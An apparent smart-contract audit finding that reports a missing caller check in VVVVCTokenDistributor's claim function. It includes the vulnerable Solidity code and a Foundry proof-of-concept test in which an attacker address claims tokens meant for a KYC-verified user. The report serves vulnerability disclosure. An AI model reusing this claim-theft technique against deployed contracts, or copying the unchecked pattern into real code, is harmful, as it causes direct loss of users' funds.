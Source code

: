Massive Ebony Otter

High

# Unauthorized Access Risk in Claim Function Due to Missing Access Controls

Impact : **High** - Direct loss of funds

likelihood : High
### Summary
The `VVVVCTokenDistributor` contract contains a critical vulnerability where any address can claim tokens intended for KYC-verified addresses. The `claim()` function sends tokens to `msg.sender` without verifying if the caller is authorized to claim on behalf of the KYC address.
https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106
### Vulnerability Details
The vulnerability exists in the claim function:
```solidity
function claim(ClaimParams memory _params) public {
    // ... validation checks ...
    // didn't valided the msg.sender
    for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
        projectToken.safeTransferFrom(
            _params.projectTokenProxyWallets[i],
            msg.sender,           // <-- VULNERABILITY: Tokens sent to caller instead of KYC address
            _params.tokenAmountsToClaim[i]
        );
    }
}
```
### Impact
- Unauthorized users can steal tokens meant for legitimate KYC-verified addresses
- Front-running attacks possible on legitimate claims
- Loss of funds for intended recipients
- Compromise of the KYC-based distribution system
#### Root Cause
- Missing validation of msg.sender against the KYC address
- Tokens sent to caller instead of the intended KYC address
- No authorization system for delegated claims
### Proof of Concept
Run the following Function in the `VVVVCTokenDistributor.unit.t.sol` contract :
```solidity
function testAnyoneCanClaimForKYCAddress() public {
        console.log("=== Starting Unauthorized Claim Test ===");

        // Setup claim parameters for a KYC address
        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress, // KYC address
            projectTokenProxyWallets,
            sampleTokenAmountsToClaim
        );

        console.log("KYC Address:", sampleKycAddress);
        console.log("Initial KYC Address Balance:", ProjectTokenInstance.balanceOf(sampleKycAddress));

        // Random attacker address claims tokens meant for KYC address
        address attacker = address(0xBEEF);
        console.log("Attacker Address:", attacker);
        console.log("Initial Attacker Balance:", ProjectTokenInstance.balanceOf(attacker));

        vm.startPrank(attacker);

        console.log("\nAttempting unauthorized claim...");
        // This should fail but succeeds, demonstrating the vulnerability
        TokenDistributorInstance.claim(claimParams);
        console.log("Claim succeeded! (This is bad - should have reverted)");

        // Verify attacker received the tokens instead of the KYC address
        uint256 attackerBalance = ProjectTokenInstance.balanceOf(attacker);
        uint256 kycAddressBalance = ProjectTokenInstance.balanceOf(sampleKycAddress);

        console.log("\nFinal Balances:");
        console.log("Attacker Balance:", attackerBalance);
        console.log("KYC Address Balance:", kycAddressBalance);
        console.log("Expected Claim Amount:", sum(sampleTokenAmountsToClaim));

        assertEq(attackerBalance, sum(sampleTokenAmountsToClaim), "Attacker shouldn't receive tokens");
        assertEq(kycAddressBalance, 0, "KYC address should have received the tokens");

        vm.stopPrank();
        console.log("=== Test Complete ===");
    }
```
### Recommendations
Implement a registry of authorized claimers for KYC addresses